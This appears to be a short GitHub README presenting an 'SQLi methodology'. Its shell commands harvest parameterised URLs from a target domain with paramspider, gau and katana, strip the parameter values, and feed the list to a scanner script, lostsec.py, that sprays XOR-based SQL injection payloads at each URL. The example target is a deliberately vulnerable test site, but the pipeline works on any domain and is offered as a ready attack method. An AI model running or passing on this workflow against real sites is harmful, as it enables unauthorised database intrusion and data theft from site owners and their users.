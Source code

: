 ![Screenshot (145)](https://github.com/user-attachments/assets/f24e4bd8-e9dd-4955-ac8a-9af0f55b4448)

BEST SQLI METHODLOGY BY COFFIN:

for single url:

python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5

for multiple urls:

paramspider -d testphp.vulnweb.com -o urls.txt

cat output/urls.txt | sed 's/FUZZ//g' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt

cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt

katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
